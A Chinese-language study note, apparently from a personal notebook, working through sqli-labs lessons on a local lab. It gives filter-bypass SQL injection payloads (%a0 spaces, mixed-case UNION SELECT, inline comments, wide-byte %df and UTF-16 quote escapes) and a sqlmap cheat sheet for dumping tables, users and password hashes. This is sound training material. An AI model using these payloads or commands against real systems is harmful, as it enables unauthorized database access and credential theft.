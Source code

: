 ![截屏2021-06-12 下午5.43.58.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623491059324-0a4a8b0b-3eb4-44dc-bad2-56539b9719e5.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=UU2Dz&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-12%20%E4%B8%8B%E5%8D%885.43.58.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1621828&status=done&style=none&title=&width=2604)<br />经判断,空格、注释、select、union都被过滤<br />利用 %a0 并且大写union和select的某些字母来绕过<br />输入<br />http://127.0.0.1:8081/Less-27/?id=999'%a0UnIon%a0SeLect%a01,2,'3<br />![截屏2021-06-12 下午9.07.50.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623503390771-2b76c456-66cf-4081-83b2-b8ffa76947c8.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=XRnye&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-12%20%E4%B8%8B%E5%8D%889.07.50.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1025992&status=done&style=none&title=&width=2604)<br />查表名<br />输入<br />http://127.0.0.1:8081/Less-27/?id=999'%a0UnIon%a0SeLect%a01,(SeLect%a0group_concat(table_name)%a0from%a0information_schema.tables%a0where%a0table_schema=database()),'3<br />![截屏2021-06-12 下午9.14.07.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623503695965-b559993b-ea22-4c28-98d1-bff7b1626937.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=bf4ZU&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-12%20%E4%B8%8B%E5%8D%889.14.07.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1066148&status=done&style=none&title=&width=2604)
## 内联注释绕过
使用/*！内容*/的形式包裹select和union可绕过，如<br />/*!union*//*!select*//*!version()/
## 宽字节注入
原理:mysql 在使用 GBK 编码的时候，会认为两个字符为一个汉字，例如%aa%5c 就是一个 汉字(前一个 ascii 码大于 128 才能到汉字的范围)。我们在过滤 ' 的时候，往往利用的思 路是将 ' 转换为 \' 。 因此我们在此想办法将 ' 前面添加的 \ 除掉，一般有两种思路:

1. %df 吃掉 \ 具体的原因是 urlencode(\') = %5c%27，我们在%5c%27 前面添加%df，形 成%df%5c%27，而上面􏰀到的 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，此时%df%5c 就是一个汉字，%27 则作为一个单独的符号在外面，同时也就达到了我们的目的。
1. 将 \' 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 的情况，后面的%5c 会被前面的%5c给注释掉。这也是 bypass 的一种方法。

![截屏2021-06-12 下午9.31.25.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623504698949-14531d34-a583-4010-b522-cff09bf005eb.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=NHiSI&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-12%20%E4%B8%8B%E5%8D%889.31.25.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=979303&status=done&style=none&title=&width=2604)<br />这里在 ' 前面输入%df 即可逃逸成功<br />![截屏2021-06-12 下午10.20.43.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623507680451-6ac80bce-ffdc-4abb-847d-95dc3fc19966.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=FKi9c&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-12%20%E4%B8%8B%E5%8D%8810.20.43.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1028054&status=done&style=none&title=&width=2604)

---


![截屏2021-06-12 下午10.22.48.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623507786008-627a7716-f671-44fa-bcf4-721639679c99.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=YPOph&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-12%20%E4%B8%8B%E5%8D%8810.22.48.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=973973&status=done&style=none&title=&width=2604)<br />get型的方式我们是以url形式提交的，因此数据会通过 URLencode，如何将方法用在 post 型的注入当中，我们此处介绍 一个新的方法。将 utf-8 转换为 utf-16 或 utf-32，例如将 ' 转为 utf-16 为 􏰃 ' 。我们就可以利用这个方式进行尝试。<br />![截屏2021-06-12 下午10.33.16.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623508411874-d3530e4c-a917-4eda-af71-fd5f76b8fd33.png#crop=0&crop=0&crop=1&crop=1&height=674&id=jy6TA&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-12%20%E4%B8%8B%E5%8D%8810.33.16.png&originHeight=674&originWidth=1472&originalType=binary&ratio=1&rotation=0&showTitle=false&size=659954&status=done&style=none&title=&width=1472)<br />此关卡也可以使用sqlmap更方便地进行注入<br />输入<br />python sqlmap.py -u http://127.0.0.1:8081/Less-34/ --data "uname=admin&passwd=admin" --tamper=unmagicquotes -D security -T users --dump-all<br />即可得到<br />![截屏2021-06-15 上午12.37.39.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623688677237-f6464e08-6377-417e-9a77-cf40d095d470.png#crop=0&crop=0&crop=1&crop=1&height=317&id=Wj04Z&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-15%20%E4%B8%8A%E5%8D%8812.37.39.png&originHeight=986&originWidth=788&originalType=binary&ratio=1&rotation=0&showTitle=false&size=719881&status=done&style=none&title=&width=253)<br />注意，这里使用了sqlmap的脚本 unmagicquotes.py
# SQLMAP的使用
sqlmap -r http.txt  #http.txt是我们抓取的http的请求包<br />sqlmap -r http.txt -p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测<br />sqlmap -u "http://www.xx.com/username/admin_"       #如果我们已经知道admin这里是注入点的话，可以在其后面加个_来让sqlmap对其注入<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   #探测该url是否存在漏洞<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"   #当该网站需要登录时，探测该url是否存在漏洞<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users      #查看数据库的所有用户<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords  #查看数据库用户名的密码<br />有时候使用 --passwords 不能获取到密码，则可以试下<br />-D mysql -T user -C host,user,password --dump  当MySQL< 5.7时<br />-D mysql -T user -C host,user,authentication_string --dump  当MySQL>= 5.7时<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba    #判断当前用户是否有管理员权限<br />sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles     #列出数据库所有管理员角色，仅适用于oracle数据库的时候
